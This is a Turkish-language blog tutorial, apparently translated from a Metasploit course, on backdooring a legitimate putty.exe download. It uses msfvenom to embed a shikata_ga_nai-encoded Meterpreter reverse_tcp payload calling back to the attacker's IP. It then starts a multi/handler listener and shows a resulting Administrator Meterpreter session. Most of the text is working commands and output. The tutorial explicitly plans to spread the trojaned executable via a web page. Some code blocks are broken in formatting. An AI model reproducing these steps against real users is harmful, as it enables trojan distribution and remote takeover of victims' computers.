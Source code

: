 ```yaml
---
draft: false

title:  'MSF EXE Arka Kapısı'
date: '2017-06-16T14:00:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Bir hedef bilgisayara yönelik olarak özel bir .exe dosyası oluşturmak ve içine kodlar gömmek gerçekten uzun zaman alabilir. Bunun yerine, zaten var olan bir .exe uzantılı dosyanın içine, Metasploit Payload modülleri yerleştirebilirsiniz.' 
 
url:  /tr/msf-exe-arka-kapisi/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Bir EXE Dosyası İle Arka Kapı Oluşturma



Bir hedef bilgisayara yönelik olarak özel bir .exe dosyası oluşturmak ve içine kodlar gömmek gerçekten uzun zaman alabilir. Bunun yerine, zaten var olan bir .exe uzantılı dosyanın içine, Metasploit Payload modülleri yerleştirebilirsiniz.



Bu yazıda, bir .exe dosyasının içine, Metasploit Payload yerleştirip encode etmeyi göreceğiz. Bu sayede, kodlanmış özel .exe dosyasını çalıştıran kullanıcının bilgisayarından bizim bilgisayarımıza Meterpreter oturum açılacaktır.



## Exe Dosyası İndirme



Örneğimizde, `putty.exe` isimli dosyayı kullanacağız. Öncelikle bu dosyayı indirelim. Encode edilmiş .exe dosyamızı web sayfasından dağıtacağımıza göre, Kali Linux içinde sunucumuzun bulunduğu `/var/www/` klasörüne gidelim ve indirmeyi aşağıdaki komut ile başlatalım.


```bash
root@kali:/var/www# wget <a href="http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe">http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe</a>
--2015-07-21 12:01:27--  <a href="http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe">http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe</a>

Resolving the.earth.li (the.earth.li)... 46.43.34.31, 2001:41c8:10:b1f:c0ff:ee:15:900d
Connecting to the.earth.li (the.earth.li)|46.43.34.31|:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: <a href="http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe">http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe</a> [following]
--2015-07-21 12:01:27--  <a href="http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe">http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe</a>
Reusing existing connection to the.earth.li:80.
HTTP request sent, awaiting response... 200 OK
Length: 524288 (512K) [application/x-msdos-program]
Saving to: `putty.exe'

100%[=========================================================================================================>] 524,288      815K/s   in 0.6s    

2015-07-21 12:01:28 (815 KB/s) - `putty.exe' saved [524288/524288]

root@kali:/var/www#
```



Şimdi, bu indirdiğimiz `putty.exe` dosyasının içine, `msfvenom` komutunu kullanarak bir Metasploit Payload modülünü yerleştireceğiz. Yerleştireceğimiz modül, `windows/meterpreter/reverse_tcp` modülüdür ve LHOST olarak kendi IP adresimiz olan 192.168.1.101 IP adresini ayarlayacağız.



Next, we use msfvenom to inject a meterpreter reverse payload into our executable and encoded it 3 times using shikata_ga_nai and save the backdoored file into our web root directory.



root@kali:/var/www# msfvenom -a x86 –platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe -o puttyX.exe



Found 1 compatible encoders Attempting to encode payload with 3 iterations of x86/shikata_ga_nai x86/shikata_ga_nai succeeded with size 326 (iteration=0) x86/shikata_ga_nai succeeded with size 353 (iteration=1) x86/shikata_ga_nai succeeded with size 380 (iteration=2) x86/shikata_ga_nai chosen with final size 380 Payload size: 380 bytes Saved as: puttyX.exe root@kali:/var/www#


```bash

İşlem başarıyla sonuçlandığında elimizde ```puttyX.exe``` isimli kodlanmış ve içine payload yerleştirilmiş bir çalıştırılabilir dosya bulunmaktadır.

.exe dosyasının içine, reverse payload yerleştirildiğine göre, bu payload bizim yerel bilgisayarımıza bağlanmak isteyecektir. O zaman, ```msfconsole``` içerisinde bir dinleyici modül çalıştırmalıyız ki bağlantı mümkün olsun.

Bunun için ```exploit/multi/handler``` modülünü kullanalım ve gerekli ayarları yapalım.

```sh
msf > use exploit/multi/handler 

msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp 
PAYLOAD => windows/meterpreter/reverse_tcp

msf exploit(handler) > set LHOST 192.168.1.101
LHOST => 192.168.1.101

msf exploit(handler) > set LPORT 443
LPORT => 443

msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.101:443 
[*] Starting the payload handler...
```



Artık dinleme modülü de çalışmaktadır. Bu aşamadan sonra yapılması gereken, oluşturduğumuz .exe dosyasını web üzerinden dağıtmaktır. Herhangi bir kullanıcı bu dosyayı çalıştırdığında, otomatik olarak yerel bilgisayarımıza bağlanacak ve Meterpreter oturumu açılacaktır.


```bash
> Sending stage (749056 bytes) to 192.168.1.201
> Meterpreter session 1 opened (192.168.1.101:443 -> 192.168.1.201:1189) at Sat Feb 05 08:54:25 -0700 2011

meterpreter > getuid
Server username: XEN-XP-SPLOIT\Administrator
meterpreter >
```



Bu yazıda anlatılan işlemler ve .exe dosyasının dağıtılması, göründüğünden daha uzun süre alabilir. Burada sadece işlemin mantığı açıklanmaya çalışılmıştır.
